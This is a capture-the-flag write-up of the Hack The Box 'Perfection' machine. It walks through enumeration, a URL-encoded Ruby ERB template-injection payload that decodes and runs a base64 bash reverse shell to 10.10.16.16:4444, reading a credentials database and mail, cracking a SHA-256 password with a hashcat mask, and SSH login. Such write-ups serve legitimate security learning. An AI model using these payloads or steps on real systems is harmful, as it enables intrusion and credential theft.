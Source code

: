 # Perfection

## Introduction

This writeup details the exploitation process of the "Perfection" box on Hack The Box. The challenge is categorized as easy difficulty and involves several stages.

<figure><img src="../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Enumeration

### Nmap

```bash
nmap -A -Pn 10.10.11.253 
```

<figure><img src="../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (8) (1) (1).png" alt=""><figcaption></figcaption></figure>

I found the website and I check all the function and I find [http://10.10.11.253/weighted-grade](http://10.10.11.253/weighted-grade)

<figure><img src="../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Curl (HEADER)

```bash
curl -I 10.10.11.253
```

<figure><img src="../.gitbook/assets/image (12) (1) (1).png" alt=""><figcaption></figcaption></figure>

And intercept with burp suite to see it have potential RCE. And I found vulnerability that need to use URL-encoding. [https://www.exploit-db.com/exploits/5215](https://www.exploit-db.com/exploits/5215)

<figure><img src="../.gitbook/assets/image (10) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Exploitation

```bash
#PAYLOAD
a%0A;<%25%3d+system("echo+IyEvYmluL2Jhc2gKYmFzaCAgLWMgImJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuMTYvNDQ0NCAwPiYxIgo=+|+base64+-d+|+bash")+%25>
```

* %0A = blank
* %25 = %
* %3d = =
* use <%= system(' ') %> for SSTI (Server Side Template Injection) of RUBY ([https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#erb-ruby](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#erb-ruby))
* IyEvYmluL2Jhc2gKYmFzaCAgLWMgImJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuMTYvNDQ0NCAwPiYxIgo= : #!/bin/bash bash -c "bash -i >& /dev/tcp/10.10.16.16/4444 0>&1" ([https://www.revshells.com/](https://www.revshells.com/))

<pre class="language-bash"><code class="lang-bash"><strong>#Plaintext PAYLOAD
</strong><strong>a
</strong><strong>;&#x3C;%= system("echo IyEvYmluL2Jhc2gKYmFzaCAgLWMgImJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuMTYvNDQ0NCAwPiYxIgo= | base64 -d | bash") %>
</strong></code></pre>

<figure><img src="../.gitbook/assets/image (11) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (13) (1) (1).png" alt=""><figcaption><p>BINGO!</p></figcaption></figure>

### User Flag

<figure><img src="../.gitbook/assets/image (14) (1) (1).png" alt=""><figcaption><p>99dea3053881db4616c908de8b15467d</p></figcaption></figure>

## Privilege Escalation

### Found the Database

```bash
strings /home/susan/Migration/pupilpath_credentials.db
```

<figure><img src="../.gitbook/assets/image (15) (1) (1).png" alt=""><figcaption><p>Susan Miller: abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f</p></figcaption></figure>

### Found the password format

```bash
cd /var/mail
cat susan
```

<figure><img src="../.gitbook/assets/image (16) (1) (1).png" alt=""><figcaption><p>{firstname}<em>{firstname backwards}</em>{randomly generated integer between 1 and 1,000,000,000}</p></figcaption></figure>

### Crack password:

```bash
hashcat -m 1400 -a 3 abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f susan_nasus_?d?d?d?d?d?d?d?d?d
PASSWORD: susan_nasus_413759210
```

* \-m 1400 (SHA-256 hashes)
* \-a 3 (brute force)
* susan\_nasus\_?d?d?d?d?d?d?d?d?d : {firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

### Connect with SSH

```bash
ssh susan@10.10.11.253 
```

<figure><img src="../.gitbook/assets/image (17) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Root Flag

<figure><img src="../.gitbook/assets/image (18) (1) (1).png" alt=""><figcaption><p>ae84cdfdc078c0790f713ee089011b7c</p></figcaption></figure>

## Follow Me

* **LinkedIn**: [https://www.linkedin.com/in/waris-damkham/](https://www.linkedin.com/in/waris-damkham/)
* **Website**: [https://waris-damkham.netlify.app/](https://waris-damkham.netlify.app/#home)
